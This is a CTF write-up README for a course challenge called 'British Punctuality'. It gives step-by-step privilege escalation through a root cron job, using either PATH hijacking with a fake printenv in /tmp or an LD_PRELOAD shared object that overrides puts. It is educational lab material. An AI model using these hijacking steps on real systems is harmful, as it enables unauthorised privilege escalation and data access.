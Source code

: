 # FSI-CTFS: British Punctuality
 
#### Exploits created by José Miguel Isidro aka [zmiguel2011](https://github.com/zmiguel2011)
## DISCAIMER:
> This exploit in British Punctuality's CTF in 22/23 due to an honest mistake by the teacher who created the CTF
> Although this wasn't the intended way to solve the CTF, this is how I managed to solve it. Nevertheless, the intended way to solving is also included in this repository and will explained [here](#intended-way-to-solve-the-ctf-exploitc)).

### Unintended Way to Solve the CTF (exploit.c)
> In [my_script.sh](../British%20Punctuality/my_script.sh) , printenv is vulnerable because of the missing absolute path. It should've been /bin/printenv. This enabled us to write arbitrary code in a 'fake' printenv program created by the user.

> You would have to compile this [program](../British%20Punctuality/exploit.c) with ggc and output the file to "printenv" in the /tmp folder.
```bash
cd /tmp
gcc -o printenv exploit.c
```

> Create a new /tmp/env file with:

```bash
PATH=/tmp
```

> Let the cronjob run and execute your printenv program and retrieve the flag from the last_log text file with:
```bash
cat /tmp/last_log
```


### Intended Way to Solve the CTF (exploit.c)

> Compile this [program](../British%20Punctuality/exploit2.c) with ggc and create shared object in the /tmp folder.
```bash
gcc -c -Wall -Werror -fpic exploit.c
gcc -shared -o myexploit.so exploit.o
```

> Create a new /tmp/env file with:

```bash
PATH=/tmp
LD_PRELOAD=/tmp/myexploit.so
```

> For reference, If you haven't heard about the [LD_PRELOAD](https://www.google.com/search?q=LD_PRELOAD+trick) environment variable, you should read about it for better understading of the step above.

> Let the cronjob run and execute the reader program which will then print the flag because the 'puts' function was overwritten. Retrieve the flag from the last_log text file with:
```bash
cat /tmp/last_log
```